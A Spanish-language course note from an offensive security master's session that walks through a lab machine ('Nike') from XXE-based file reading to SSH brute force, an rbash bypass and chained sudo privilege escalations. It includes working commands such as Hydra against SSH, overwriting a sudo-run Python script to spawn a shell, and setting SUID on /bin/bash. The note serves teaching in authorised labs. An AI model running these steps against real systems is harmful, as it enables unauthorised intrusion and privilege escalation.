



---
tags:
- Máquinas y prácticas
---

# Sesion 27 XXE LFI Nike

**EVOLVE ACADEMY · MÁSTER EN CIBERSEGURIDAD OFENSIVA**

**Sesión 27 — XXE → LFI y escaladas encadenadas**

**Máquina Nike (TheHackerLabs, nº 170)**

Instructor: Carlos Castillo · 13/07/2026

| **ℹ Contexto de la sesión**  Repaso completo de la máquina Nike, ya vista parcialmente con Carlos Gómez. El foco de hoy no es la flag, sino el **razonamiento** y la **metodología**: cómo detectar el XXE forzando la web poco a poco, cómo pivotar de un LFI a información útil, y cómo encadenar tres escaladas/movimientos laterales de dificultad creciente vía sudo -l. |
| --- |

# **1. Objetivos de la sesión**

- Repasar la **metodología web** completa sobre una máquina real: enumeración → descubrimiento → explotación → post-explotación.
- Detectar y explotar una **inyección XXE** (XML External Entity) en upload.php forzando la aplicación de forma incremental.
- Convertir el XXE en un **LFI** (Local File Inclusion) para leer archivos del sistema y extraer credenciales.
- Realizar **fuerza bruta SSH** dirigida con Hydra a partir de usuarios y contraseñas obtenidos.
- Aprender a hacer **bypass de una shell restringida (rbash)** al conectar por SSH.
- Encadenar **tres movimientos laterales / escaladas** apoyándose en sudo -l y GTFOBins, con dificultad creciente (java → python → logrotate/dd).

# **2. Conceptos clave**

## **GET vs POST**

Explicado en clase de forma sencilla: **GET** pide información al servidor y la devuelve ("quiero esto, dámelo"). **POST** envía información que el servidor tiene que **validar o comprobar** antes de responder (un formulario, un login, un bloque XML...).

| **⚠ Regla práctica**  Cuando vayas a **enviar** datos para que el servidor los procese, cambia el método a POST. Muchas veces funciona sin cambiarlo, pero otras **peta**. En Burp: clic derecho → *Change request method*, o edítalo a mano. En curl, -X POST (aunque con -d ya se sobreentiende). |
| --- |

## **XXE — XML External Entity**

Vulnerabilidad que aparece cuando un **parser de XML** procesa entidades definidas por el usuario sin restringirlas. En XML, una **entidad** es como una variable. Si además se permiten **entidades externas** con la palabra clave SYSTEM, podemos hacer que el parser vaya a buscar el contenido de un archivo (o una URL) del servidor y lo refleje en la respuesta.

| **ℹ Ampliación**  La entidad externa SYSTEM admite varios wrappers: file:// para leer archivos locales, pero también http:// o ftp:// para hacer llamadas salientes. En esta máquina nos quedamos en file:// para leer del sistema. |
| --- |

## **LFI — Local File Inclusion**

Capacidad de **leer archivos locales** del servidor a los que en principio no deberíamos acceder. Aquí el LFI es la consecuencia del XXE: podemos leer ficheros, pero **no listar directorios**. Como mucho leemos rutas que conocemos o intuimos por el contexto (/etc/passwd, la ruta de la web, claves privadas...).

| **⚠ AVISO**  No sabes si un archivo "no responde" porque **no existe** o porque **no tienes permiso** para leerlo: no ves el output que lo distinga. Es una de las problemáticas típicas del hacking: el contexto que no controlas. |
| --- |

## **rbash — shell restringida (enjaulada)**

rbash (restricted bash) es una shell enjaulada. La **r** viene de *restringida* (regla mnemotécnica de clase). Impide, entre otras cosas: cambiar de directorio (cd), usar rutas con / en comandos, redirigir salidas, modificar variables de entorno y ejecutar comandos con rutas absolutas.

# **3. Desarrollo técnico**

Cadena completa de explotación de la máquina Nike, en el orden real de la sesión:

## **3.1 Enumeración inicial**

Descubrimiento del host con Netdiscover y escaneo con Nmap. El **TTL 64** en el ping indica que el objetivo es **Linux** (dato de contexto útil para después).

Resultado del escaneo: solo **dos puertos**.

| **Puerto** | **Servicio** | **Notas** |
| --- | --- | --- |
| 22 | SSH | Nada que hacer aquí de primeras (paso habitual). |
| 80 | HTTP — Apache 2.4 | Poca información. Conviene tener en cuenta la versión por si hay algún CVE. |
| **ℹ Metodología**  Antes de lanzar Gobuster, **analiza la web a mano** (metodología pasiva): funcionalidades, formularios, contacto, emails. WhatWeb detectó un email en la página. No te fíes al 100% de la herramienta, pero en webs enormes puede rescatar información que se te pasaría. |

## **3.2 Descubrimiento de contenido**

Fuzzing de directorios y ficheros con Gobuster (o Dirsearch / Feroxbuster / ffuf / wfuzz, equivalentes). Aparecen ficheros PHP con "chicha", entre ellos upload.php y datos.php, y un 500 Internal Server Error interesante que se investiga más adelante.

| **ℹ NOTA**  Gobuster tarda en devolver el 500: primero recorre los 200 y 301 y al final muestra el 500. Un 500 casi siempre es interesante: algo está fallando por detrás y puede filtrar información. |
| --- |

## **3.3 Detección del XXE en upload.php**

Metodología incremental: no lanzamos el payload final de golpe, vamos **forzando la aplicación poco a poco** y observando cómo responde en cada paso.

**Paso 1 — Petición vacía.** El servidor responde que falta algo ("no proporcionado"). Además, el mensaje de error menciona startup, expected, un < (menor que) *not found*: pistas de que hay un **parser de XML de PHP** detrás.

**Paso 2 — Cambiar GET a POST** y enviar un parámetro cualquiera (el nombre da igual, p. ej. mail=test). Se envía **data** para que el servidor la valide.

**Paso 3 — Bloque XML básico.** El PHP lo **parsea** y lo refleja tal cual (código 200). "Le ha gustado": el XML llega al servidor y vuelve. Confirmado que interpreta XML.

**Paso 4 — Declarar una entidad interna** (una variable, p. ej. example o ENT) y llamarla en un campo (lastName). El parser la **resuelve** y devuelve su valor. Cada vez apretamos más.

**Paso 5 — Entidad externa `SYSTEM`.** Como no pone pega a las variables ni a los parámetros y devuelve 200, pedimos ya algo crítico: leer un archivo del sistema con file://.

| **⚠ Explotación en laboratorio autorizado**  Estructura del payload XXE usado (declaración DOCTYPE + entidad externa SYSTEM que apunta a file:///etc/passwd, invocada dentro del campo lastName del bloque userInfo). La entidad SYSTEM es la que permite ir a buscar el valor dentro del servidor. **No se reproduce el payload literal**: recréalo desde GTFOBins/HackTricks o con ayuda de la documentación de XXE. |
| --- |

**Paso 6 — Lectura de `/etc/passwd`.** Se obtiene la lista de usuarios. De ellos, 5 pueden loguearse (/bin/bash); uno tiene una shell distinta del resto (rbash, restringida) y otro es root.

## **3.4 Del XXE al LFI: leer la web y las credenciales**

Sabiendo que es Linux, la ruta base habitual de las webs es /var/www/html. Cambiando el objetivo de la entidad de /etc/passwd a /var/www/html/datos.php leemos el **código/credenciales** de ese fichero. Recuerda: en PHP, si el fichero se **interpreta**, no ves su código; pero leyéndolo como archivo vía LFI sí obtenemos su contenido en crudo.

| **ℹ Qué extraer con un LFI**  Con un LFI no te limites a /etc/passwd. Puedes sacar: la ruta donde está alojada la web, .bash\_history, y sobre todo **claves privadas SSH** en /home/<usuario>/.ssh/id\_rsa. Existen diccionarios específicos de LFI en SecLists (busca "LFI" o "local file inclusion") con rutas por defecto según el sistema operativo. |
| --- |
| **ℹ Ampliación**  Idea de proyecto lanzada en clase: una herramienta que detecte la tecnología de la web (p. ej. un framework tipo ColdFusion), descargue su documentación y **genere un diccionario específico** de rutas por defecto para probarlo automáticamente si hay un LFI. Encaja con RedNotes / automatización. |

## **3.5 Acceso inicial: Hydra sobre SSH**

Con los usuarios y contraseñas extraídos de datos.php (guardados en dos ficheros de texto, usuarios y password), se lanza Hydra contra SSH para encontrar la combinación válida. Resultado: el usuario **mike** con su contraseña (password ok).

## **3.6 Bypass de rbash al conectar por SSH**

Al conectar por SSH con mike caemos en una **rbash**: casi todo está restringido, no podemos movernos ni listar. El bypass es sencillo: al establecer la conexión SSH le especificamos **qué terminal queremos** que se inicie, forzando bash en lugar de rbash.

| **✓ Técnica de bypass**  El bypass consiste en indicar a SSH la shell/terminal a lanzar antes de entrar (parámetro -t para asignar una pseudo-terminal y pedir bash). Aquí la rbash está muy poco restringida, así que **no te compliques**: fuerza bash y listo. Comando en una sola línea (ver sección 6). |
| --- |

Una vez dentro, se puede estabilizar la TTY con python3 -c 'import pty; pty.spawn("/bin/bash")', o con Ctrl+Z + stty raw -echo; fg.

| **ℹ NOTA**  Diferencia clave vista en clase: aunque el login SSH directo de un usuario esté bloqueado o restringido, muchas veces **sí** puedes cambiar a él **una vez dentro** con su <usuario> + su contraseña. El contexto influye muchísimo; no todo tiene una respuesta única. |
| --- |

## **3.7 Movimientos laterales y escaladas (sudo -l)**

El corazón didáctico de la sesión: sudo -l no es "llegar y ejecutar GTFOBins". Hay que entender **qué puedes ejecutar y qué no**, y adaptarte. Tres casos de dificultad creciente:

## **Caso 1 — mike → n vía java (GTFOBins)**

sudo -l muestra que mike puede ejecutar /usr/bin/java **como el usuario n** sin contraseña. Aunque Java sea un lenguaje, aquí es solo un **binario** que puede *spawnear* una shell. Pasos: crear un .java con una clase que llame a /bin/bash, pasarlo a la víctima, **compilarlo** dentro con javac, y ejecutar el .class resultante con sudo -u n.

| **⚠ Fallos que costaron tiempo en clase**  Errores reales de la sesión: (1) **no ejecutes en un directorio sin permisos de escritura para n** (p. ej. el escritorio de mike) — trabaja siempre en /tmp. (2) El **nombre del fichero** debe coincidir con el de la **clase pública** (Shell.java con clase Shell), o javac falla. (3) Se ejecuta el .class, no el .java. |
| --- |

Transferencia del archivo: levantar un servidor con python3 -m http.server <puerto> en tu Kali y descargarlo en la víctima con wget http://<TU\_IP>/Shell.java. El log código 200 en tu servidor confirma la descarga. **Ojo con usar tu IP correcta**, no 127.0.0.1.

## **Caso 2 — n → pilon vía python (fichero modificable)**

Ahora el usuario **n** puede ejecutar sudo -u pilon /usr/bin/python3 /opt/suma.py. La diferencia: **estás obligado a ejecutar ese `suma.py` concreto**, no un script tuyo. Pero el **propietario del fichero es n** → puedes **modificarlo**. Se sobrescribe suma.py con un payload Python que spawnea una shell:

| import os; os.system("/bin/bash") |
| --- |

Al ejecutarlo vía sudo -u pilon python3 /opt/suma.py obtienes shell como **pilon**. import os + os.system(...) es lo que permite ejecutar comandos del sistema desde Python.

| **ℹ NOTA**  Como el propietario del archivo es n, también podrías **borrarlo y crear otro** con el mismo nombre, pero si puedes **modificarlo** es lo más cómodo. La ruta en sudo -l no comprueba el contenido del fichero, solo la ruta: por eso la modificación funciona. |
| --- |
| **ℹ Ampliación**  Alternativas al os.system("/bin/bash"): una reverse shell en Python (ver revshells.com), o dar SUID a bash desde el script (chmod u+s /bin/bash) y luego bash -p. Hay mil formas; elige la que entiendas. |

## **Caso 3 — logrotate / dd (sin GTFOBins claro)**

El tercer sudo -l permite ejecutar /usr/sbin/logrotate (y en otra rama, dd). Aquí GTFOBins **no da una receta directa clara**, así que toca "buscarse la vida" (Google: *logrotate privilege escalation*, HackTricks, o la IA). logrotate gestiona y **rota logs** automáticamente según un fichero de configuración.

Técnica (logrotate): se prepara un directorio de trabajo en /tmp con permisos, un fichero de **log** (puede ir vacío) y un fichero de **configuración `.conf`** que apunta a ese log con parámetros como size 0, missingok, rotate 1 y un bloque postrotate. En el postrotate se copia /bin/bash a /tmp y se le da **SUID** (chmod u+s), de modo que al ejecutar logrotate con el usuario privilegiado se genera una bash SUID que luego se lanza con bash -p.

| **⚠ Explotación en laboratorio autorizado**  En esta máquina una **reverse shell no funciona bien** en la escalada final porque el proceso de logrotate no es estable: mejor **spawnear una bash** o dar **SUID** a /bin/bash. dd sigue una dinámica similar (escritura de ficheros como root/usuario privilegiado). No memorices el payload: entiende que necesitas un .conf malicioso y unos parámetros correctos. |
| --- |
| **ℹ Mensaje del instructor**  No te agobies con esta escalada: es de nivel avanzado y quizá no la vuelvas a ver. El objetivo de verla era que interiorices que sudo -l **no es siempre trivial** — el contexto puede complicarla mucho, y a veces hay que investigar fuera de GTFOBins. |

# **4. Herramientas utilizadas en la sesión**

| **Herramienta** | **Objetivo** | **Fase de auditoría** | **Comando o uso visto** | **Nivel** | **Notas** |
| --- | --- | --- | --- | --- | --- |
| Netdiscover | Descubrir hosts en la red | Enumeración | netdiscover | Practicada | Paso previo al escaneo. |
| Nmap | Puertos y servicios | Enumeración | nmap -sV -p- IP | Recurrente | TTL 64 → Linux. Solo 22 y 80. |
| WhatWeb | Fingerprinting web | Enumeración web | whatweb URL | Introducida | Detectó un email. No fiarse al 100%. |
| Wappalyzer | Tecnologías web | Enumeración web | Extensión navegador | Introducida | Apenas dio datos en esta web. |
| Gobuster | Fuzzing de rutas/ficheros | Enumeración web | gobuster dir -u URL -w wordlist | Practicada | Halló upload.php, datos.php y un 500. |
| Burp Suite | Interceptar/editar peticiones | Explotación web | Proxy + Repeater | Practicada | Cambio GET→POST, envío de XXE. |
| curl | Peticiones sin GUI | Explotación web | curl -X POST -d 'data' URL | Practicada | Alternativa a Burp. -F para subir ficheros. |
| Hydra | Fuerza bruta SSH | Acceso inicial | hydra -L usuarios -P password ssh://IP | Practicada | Con listas extraídas de datos.php → mike. |
| SSH | Acceso remoto / bypass rbash | Acceso inicial | ssh mike@IP -t bash | Practicada | Fuerza bash sobre rbash. |
| python3 -m http.server | Transferir archivos | Post-explotación | python3 -m http.server 8000 | Practicada | Servidor web local; wget desde víctima. |
| javac / java | Compilar/ejecutar payload | Escalada (GTFOBins) | sudo -u n /usr/bin/java Shell | Introducida | Nombre fichero = clase. Ejecuta .class. |
| python3 (binario) | Ejecutar payload | Escalada (GTFOBins) | sudo -u pilon python3 /opt/suma.py | Introducida | import os; os.system('/bin/bash'). |
| logrotate | Escalada por config maliciosa | Escalada | sudo logrotate -f config.conf | Introducida | Nuevo. postrotate → SUID bash. |
| dd | Escritura como privilegiado | Escalada | sudo dd if=... of=... | Mencionada | Nuevo. Rama alternativa, no explotada a fondo. |
| GTFOBins | Recetas de abuso de binarios | Escalada | gtfobins.github.io | Recurrente | java y python sí; logrotate no claro. |

# **5. Comandos importantes**

Todos en una sola línea. Sustituye IP, TU\_IP, puertos, usuarios y rutas por los reales del laboratorio.

## **Enumeración**

| netdiscover -i eth0  nmap -sV -p- IP  whatweb http://IP/  gobuster dir -u http://IP/ -w /usr/share/wordlists/dirb/common.txt -x php |
| --- |

## **XXE / LFI (curl)**

Petición POST con -d (data). Con -X POST explícito para dejarlo claro; -F sería para subir ficheros. El payload XML va entre comillas simples.

| curl -X POST -d '<BLOQUE\_XML\_XXE>' http://IP/upload.php |
| --- |
| **⚠ AVISO**  El <BLOQUE\_XML\_XXE> es el DOCTYPE con la entidad externa SYSTEM apuntando a file:///etc/passwd (o a /var/www/html/datos.php, o a /home/<user>/.ssh/id\_rsa) e invocada en lastName. No se reproduce literal: recréalo desde HackTricks/GTFOBins. |

## **Fuerza bruta SSH y bypass rbash**

| hydra -L usuarios.txt -P password.txt ssh://IP  ssh mike@IP -t bash  python3 -c 'import pty; pty.spawn("/bin/bash")' |
| --- |

## **Transferencia de archivos**

| python3 -m http.server 8000  wget http://TU\_IP:8000/Shell.java -O /tmp/Shell.java |
| --- |

## **Escaladas / movimientos laterales**

| sudo -l  javac /tmp/Shell.java  sudo -u n /usr/bin/java -cp /tmp Shell  echo 'import os; os.system("/bin/bash")' > /opt/suma.py  sudo -u pilon /usr/bin/python3 /opt/suma.py  chmod u+s /bin/bash  bash -p |
| --- |
| **⚠ Recordatorio java**  El nombre del .java debe coincidir con la clase pública que contiene (aquí Shell), o javac fallará. Ejecuta siempre el .class compilado, y hazlo en un directorio escribible por el usuario destino (/tmp). |

# **6. Riesgos, errores comunes y buenas prácticas**

| **⚠ Alcance**  Todo el contenido es para **laboratorios autorizados** (TheHackerLabs, HTB, entornos propios). No lo apliques sobre sistemas de terceros sin permiso explícito. |
| --- |
| **⚠ AVISO**  **Trabaja siempre en `/tmp`** para movimientos laterales: evita el error de ejecutar payloads en directorios sin permisos para el usuario destino (le pasó al instructor y perdió media hora). |
| **⚠ AVISO**  **Nombre de fichero = clase** en Java; ejecuta el .class, no el .java. Comprueba tu **IP real** (ifconfig/ip a) antes de servir/descargar archivos: usar una IP antigua o 127.0.0.1 es un fallo típico. |
| **✓ CORRECTO**  Metodología incremental: **no vayas dos pasos por delante**. Lanza, mira, analiza el código de estado (200/500), y decide. Prueba-error **con análisis**, no a ciegas. |
| **ℹ Uso de IA**  Usa la IA con criterio para generar/depurar payloads XXE o revshells, y para valorar defensas (p. ej. libxml\_disable\_entity\_loader / LIBXML\_NOENT), pero **entiende la lógica** antes de copiar. Anthropic ofrece un formulario para usos de ciberseguridad legítimos si un modelo bloquea peticiones de laboratorio. |

# **7. Conexión con sesiones anteriores**

Esta sesión **consolida y encadena** técnicas ya introducidas en la máquina Castor (sesión ~26) y en Banco y Rockstar:

- **XXE como vector de LFI**: ya visto en Castor con upload.php y extracción de /etc/passwd. Aquí se refuerza la *metodología incremental* de detección.
- **LFI / Path Traversal**: trabajado en Banco. Se amplía con qué extraer (claves privadas, rutas de la web, diccionarios LFI de SecLists).
- **Hydra + SSH**: misma dinámica que en Castor (brute-force SSH tras obtener usuarios/contraseñas).
- **GTFOBins y `sudo -l`**: en Banco/Rockstar se vieron SUID, sudoers, sustitución de binarios y cron. Hoy se añade el matiz de que sudo -l **no siempre es trivial** (caso logrotate/dd sin receta directa).
- **Estabilización de TTY y transferencia con `python3 -m http.server`**: patrón recurrente de post-explotación.

Herramientas **nuevas** respecto al registro acumulado: logrotate y dd como binarios de escalada (antes no aparecían).

# **8. Resumen final**

La máquina Nike (TheHackerLabs, nº 170) es una cadena web completa. Se enumera (Nmap: 22 y 80, Linux por TTL 64), se descubre upload.php y datos.php con Gobuster, y se detecta un **XXE** forzando la app paso a paso: petición vacía → POST → XML básico → entidad interna → entidad externa SYSTEM. Ese XXE se convierte en **LFI** para leer datos.php y extraer credenciales; con **Hydra** sobre SSH se obtiene el usuario **mike**, cuya **rbash** se **bypassea** forzando bash en la conexión. Desde ahí, tres saltos vía sudo -l: **mike→n** (java/GTFOBins), **n→pilon** (python, fichero modificable) y una **escalada final** con **logrotate**/**dd** (SUID a bash). El mensaje central: la metodología no cambia, pero el contexto sí; el sudo -l exige entender qué puedes ejecutar y adaptarte.

# **9. Checklist de repaso**

1. Enumerar con Netdiscover + Nmap e identificar el SO por TTL.
2. Analizar la web a mano (WhatWeb/Wappalyzer, emails, formularios) antes de Gobuster.
3. Fuzzear rutas y localizar ficheros PHP y códigos de error (500).
4. Detectar XXE de forma incremental: vacío → POST → XML → entidad interna → entidad externa SYSTEM.
5. Convertir el XXE en LFI: leer /etc/passwd, /var/www/html/datos.php, claves privadas.
6. Extraer usuarios y contraseñas; lanzar Hydra sobre SSH.
7. Hacer bypass de rbash forzando bash en la conexión SSH y estabilizar la TTY.
8. Leer sudo -l en cada usuario y consultar GTFOBins; adaptarse si no hay receta directa.
9. Encadenar: java (mike→n) → python/suma.py (n→pilon) → logrotate/dd (SUID bash).
10. Trabajar siempre en /tmp; verificar IP real antes de transferir archivos.

# **10. Actualización del registro de herramientas**

Bloque copiable a la base de conocimiento del proyecto. Entradas nuevas y cambios de nivel derivados de esta sesión:

| **Herramienta** | **Nivel** |
| --- | --- |
| logrotate | Introducida (NUEVA — escalada por config maliciosa) |
| dd | Mencionada (NUEVA — escritura como privilegiado) |
| javac / java (binario) | Introducida (escalada GTFOBins) |
| python3 (binario, sudo) | Introducida (escalada GTFOBins) |
| python3 -m http.server | Practicada (transferencia de archivos) |
| WhatWeb | Introducida → reforzada (fingerprinting + emails) |
| Hydra | Introducida → Practicada (brute-force SSH real) |
| curl | Practicada (explotación XXE/LFI sin GUI) |
| SSH (bypass rbash) | Practicada (ssh -t bash) |
| GTFOBins | Recurrente (java, python; logrotate no cubierto) |
| **✓ Para consolidar**  Concepto nuevo a fijar para la próxima: **SUID a /bin/bash** como técnica de escalada (chmod u+s /bin/bash → bash -p), y la idea de que logrotate/dd escalan por **escritura de ficheros**, no por shell directa. |
